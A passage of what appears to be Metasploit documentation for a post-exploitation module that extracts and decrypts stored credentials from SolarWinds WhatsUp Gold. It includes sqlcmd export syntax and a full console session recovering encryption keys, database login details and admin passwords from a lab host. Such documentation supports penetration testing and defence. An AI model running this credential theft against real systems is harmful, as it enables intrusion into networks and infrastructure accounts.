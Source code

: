 Output must be encoded VARBINARY per above, and must be well-formed CSV (i.e. no trailing whitespace).
If using `sqlcmd`, ensure the `-W` and `-I` parameters are included to strip trailing whitespace and
allow quoted identifiers. Suggested syntax for `sqlcmd` using Windows authentication is below, where
the contents of `solarwinds_sql_query.sql` is the text of the SQL query above:

`sqlcmd -d "<DBNAME>" -S <MSSQL_INSTANCE> -E -i sql_query.sql -o wug_dump.csv -h-1 -s"," -w 65535 -W -I`

This should place a CSV export file suitable for use within the module at `wug_dump.csv`. If
using SQL native auth, replace the `-E` parameter with

`-U "<MSSQL_USER>" -P "<MSSQL_PASS>"`

### Examples

Windows Server 2019 host running WhatsUp Gold Build 22.1.39 with external database
and SQL native authentication using the `dump` action:

```
msf exploit(multi/handler) > use post/windows/gather/credentials/whatsupgold_credential_dump
msf post(windows/gather/credentials/whatsupgold_credential_dump) > set session 1
session => 1
msf post(windows/gather/credentials/whatsupgold_credential_dump) > dump

[*] Hostname WUG IPv4 192.168.101.137
[*] WhatsUp Gold Build 22.1.39
[*] Init WhatsUp Gold crypto ...
[+] WhatsUp Gold Serial Number: 52CXF233MXGRDVB
[+] WhatsUp Gold Dynamic Encryption Salt
[+]     HEX: E9143AD84940A233
[+] WhatsUp Gold Composed AES256
[+]     KEY: 5B83224E3BFB363C841C6E27B6DF6B824ECD67BA06B4ED1918C0F738A60A8A75
[+]      IV: 5205DF3A92F346215308DD91DEAF69AE
[*] Init WhatsUp Gold SQL ...
[+] SolarWinds WhatsUp Gold SQL Database Connection Configuration:
[+]     Instance Name: cornflakes.cesium137.io
[+]     Database Name: WhatsUp
[+]     Database User: WhatsUpGold_WUG
[+]     Database Pass: KB4A5bERZ13o6GGF3kON3z6mx5
[*] Performing export of WhatsUp Gold SQL database to CSV file
[*] Export WhatsUp Gold DB ...
[+] 11 WUG rows exported, 4 unique nCredentialTypeIDs
[+] Encrypted WhatsUp Gold Database Dump: /root/.msf4/loot/20221218103644_default_192.168.101.137_whatsup_gold_enc_233587.txt
[*] Performing decryption of WhatsUp Gold SQL database
[+] 11 WUG rows loaded, 4 unique nCredentialTypeIDs
[*] Process WhatsUp Gold DB ...
[+] 11 WUG rows processed
[*] 11 rows recovered: 7 plaintext, 4 decrypted (0 blank)
[*] 11 rows written (0 blank rows withheld)
[+] 4 unique WUG nCredentialTypeID records recovered
[+] Recovered Credential: LDAP bind account
[+]     L: CESIUM137\ldap
[+]     P: WuddidUSay2Me?!
[+] Recovered Credential: vSphere SSO Admin
[+]     L: Administrator@vSphere.local
[+]     P: IAmOut2Lunch!
[+] Recovered Credential: NetScaler root
[+]     L: nsroot
[+]     P: quit2day!
[+] Decrypted WhatsUp Gold Database Dump: /root/.msf4/loot/20221218103644_default_192.168.101.137_whatsup_gold_dec_398808.txt
[*] Post module execution completed
```